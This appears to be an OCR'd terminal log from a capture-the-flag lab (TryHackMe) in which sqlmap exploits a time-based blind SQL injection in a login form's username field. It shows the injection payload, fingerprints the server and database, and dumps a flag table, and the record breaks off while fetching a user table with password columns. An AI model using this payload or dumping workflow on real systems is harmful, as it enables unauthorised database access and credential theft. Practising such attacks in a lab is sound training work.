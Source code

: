 ```
>
Edit POST data [default: username=&password=&submit=submit] (Warning: blank fields detected):
do you want to fill blank fields with random values? [Y/n]
[12:05:59] [INFO] resuming back-end DBMS 'mysql'
[12:05:59] [INFO] using '/home/ehogue/.local/share/sqlmap/output/results-06152021_1205pm.csv' as the CSV results file in multiple targets mode
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=JRBT' AND (SELECT 8755 FROM (SELECT(SLEEP(5)))bMON) AND 'XPTO'='XPTO&password=&submit=submit
---
do you want to exploit this SQL injection? [Y/n]
[12:06:01] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 12.10 or 13.04 or 12.04 (Raring Ringtail or Quantal Quetzal or Precise Pangolin)
web application technology: PHP 5.3.10, Apache 2.2.22
back-end DBMS: MySQL >= 5.0.12
[12:06:01] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[12:06:01] [INFO] fetching current database
[12:06:01] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n]
[12:06:20] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions
[12:06:31] [INFO] adjusting time delay to 2 seconds due to good response times
THM_f0und_m3
[12:08:40] [INFO] fetching tables for database: 'THM_f0und_m3'
[12:08:40] [INFO] fetching number of tables for database 'THM_f0und_m3'
[12:08:40] [INFO] retrieved: 2
[12:08:46] [INFO] retrieved: nothing_inside
[12:10:53] [INFO] retrieved: user
[12:11:26] [INFO] fetching columns for table 'nothing_inside' in database 'THM_f0und_m3'
[12:11:26] [INFO] retrieved: 1
[12:11:31] [INFO] retrieved: Easter_4
[12:12:39] [INFO] fetching entries for table 'nothing_inside' in database 'THM_f0und_m3'
[12:12:39] [INFO] fetching number of entries for table 'nothing_inside' in database 'THM_f0und_m3'
[12:12:39] [INFO] retrieved: 1
[12:12:43] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)
THM{REDACTED}
Database: THM_f0und_m3
Table: nothing_inside
[1 entry]
+-------------------------+
| Easter_4                |
+-------------------------+
| THM{REDACTED}           |
+-------------------------+

[12:16:39] [INFO] table 'THM_f0und_m3.nothing_inside' dumped to CSV file '/home/ehogue/.local/share/sqlmap/output/target.thm/dump/THM_f0und_m3/nothing_inside.csv'
[12:16:39] [INFO] fetching columns for table 'user' in database 'THM_f0und_m3'
[12:16:39] [INFO] retrieved: 2
[12:16:45] [INFO] retrieved: username
[12:17:46] [INFO] retrieved: password
[12:18:56] [INFO] fetching entries for table 'user' in database 'THM_f0und_m3'
[12:18:56] [INFO] fetching number of entries for table 'user' in database 'THM_f0und_m3'
[12:18:56] [INFO] retrieved: 2
```